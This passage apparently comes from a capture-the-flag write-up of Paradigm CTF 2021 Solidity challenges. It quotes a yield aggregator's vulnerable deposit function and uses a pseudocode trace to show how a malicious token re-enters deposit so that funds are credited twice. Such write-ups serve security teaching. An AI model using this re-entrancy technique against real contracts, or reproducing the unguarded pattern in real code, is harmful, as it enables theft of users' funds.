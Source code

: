 ## Upgrade

> Circle released a new update to USDC but something seems off. Can you take a look?

Solution by [Ansgar Dietrichs](https://twitter.com/adietrichs):

[https://hackmd.io/@adietrichs/paradigm-ctf-2021](https://hackmd.io/@adietrichs/paradigm-ctf-2021)


## Yield Aggregator

> Set and forget yield aggregation services are great for the ecosystem.

There's a yield aggregator contract allowing deposits and withdrawals of multiple tokens in a single function.
When depositing, the balance is saved at function start and the tokens are then pulled in using `transferFrom`.
Once all tokens have been processed, the balance difference to the start is stored as the user's balance.

```solidity
function deposit(Protocol protocol, address[] memory tokens, uint256[] memory amounts) public {
    uint256 balanceBefore = protocol.balanceUnderlying();
    for (uint256 i= 0; i < tokens.length; i++) {
        address token = tokens[i];
        uint256 amount = amounts[i];
        ERC20Like(token).transferFrom(msg.sender, address(this), amount);
        ERC20Like(token).approve(address(protocol), 0);
        ERC20Like(token).approve(address(protocol), amount);
        // reset approval for failed mints
        try protocol.mint(amount) { } catch {
            ERC20Like(token).approve(address(protocol), 0);
        }
    }
    uint256 balanceAfter = protocol.balanceUnderlying();
    uint256 diff = balanceAfter - balanceBefore;
    poolTokens[msg.sender] += diff;
}
```

The tokens are not checked against a whitelist and we can use any tokens we control.
This makes a re-entrancy attack possible.
We can profit from doing a _second_ deposit while already doing a deposit.
The second deposit correctly attributes our sent funds.
However, this deposit and our increased balance **is attributed again** in the outer first deposit.

```solidity
deposit([50 ether, 0 ether], [WETH, attacker])
    balanceBefore = 0
    WETH.transferFrom(50 ether, attacker, aggregator)
    attacker.transferFrom(0 ether, attacker, aggregator)
        // re-entrancy
        deposit([50 ether], [WETH])
            balanceBefore = 50 ether
            WETH.transferFrom(50 ether, attacker, aggregator)
            balanceAfter = 100 ether
            diff = 50 ether // + 50 balance
    balanceAfter = 100 ether
    diff = 100 ether // + 100 balance
```
